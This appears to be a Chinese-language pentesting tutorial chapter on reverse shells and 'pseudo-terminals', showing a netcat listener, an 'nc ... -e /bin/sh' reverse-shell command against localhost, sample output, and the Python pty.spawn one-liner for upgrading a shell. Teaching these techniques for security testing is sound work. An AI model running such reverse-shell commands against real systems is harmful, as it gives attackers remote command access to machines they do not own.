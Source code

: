 # 伪终端

## 伪终端

这一章,我们来讲讲如何使用 python 做一个伪终端.不过在这之前你需要先了解一点伪终端的意思,还有一些技巧.这个我们会在下面讲到:

伪终端其实就是命令终端(cmd.exe,/bin/sh)通过网络接口反弹给攻击者,或者是新建一个监听端口反弹一个终端给攻击者,值得注意的就是原终端对于标准的输入,输出是不做处理的(stdin/stdout/stderr),同样的反弹的 shell 也是不对它做处理的.(ssh 访问都是直接从键盘上读取).

这意味着有一些特殊的命令能够帮助你反弹 shell,像我们最常见的就是使用 netcat 命令来反弹 shell:

```py
#启动 netcat 监听器
~$ nc -lvp 443
listening on [any] 443 ...

# 使用 netcat 反弹'/bin/sh'
~$ nc 127.0.0.1 443 -e /bin/sh 
```

现在你可能注意到你看不到一些命令提示,我们输入几个命令试试:

```py
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var 
```

上面这些命令运行会很正常,但是当你运行一些需要用户再次输入验证或者是编辑的命令就可能会出现问题, 例如(FTP,SSH,vi 等),因为我们虚拟的终端它只有标准的输入输出功能,不会再次返回验证输入. 但是对于写文件我们可以使用 echo 命令来写入内容,这个对于现实是一点儿也不违和的.

在使用的过程中你也可能已经注意到了,它并有任何的提示性消息给您.这是因为命令的的提示消息是同过 STDERR 函数来传递的, 而在前面我们也讨论过我们实现的并不是一个原生终端,如果你想执行一些二进制的执行文件,譬如是 meterpeter 的执行文件就可能会出现错误.

对于已经安装了 python 的系统,我们可以使用 python 提供的 pty 模块,只需要一行脚本就可以创建一个原生的终端.下面是演示代码.执行第一行前 我还没有进入终端.

```py
python -c "import pty;pty.spawn('/bin/bash')"

kali@kali:/$ uname -a
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

kali@kali:/$ id
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

kali@kali:/$ ls
ls
bin    dev         home   lib64  opt      srv  usr
boot   initrd.img  media  proc   sbin     sys  var
etc    lib         mnt    root   selinux  tmp
kali@kali:/$ 
```

-c 参数选项允许我们直接在命令终端里面执行指定脚本,上面那段脚本,我使用分号把两行代码合并为了一行.这样写并不为过.还有一点. 就是双引号里面只能使用单引号把/bin/bash 引起来,如果使用双引号就出出现语法错误.就像下面这样:

```py
python -c "import pty;pty.spawn("/bin/bash")" 
```

虽然到目前为止写的虚拟终端并没有原生终端那样好,但是花点时间去折腾然后不断的去完善.相信会做的更好. 大家可能在渗透测试的时候会发现有些时候系统的命令终端是不允许直接访问的,那么这个时候用 Python 虚拟化一个终端相信会让你眼前一亮.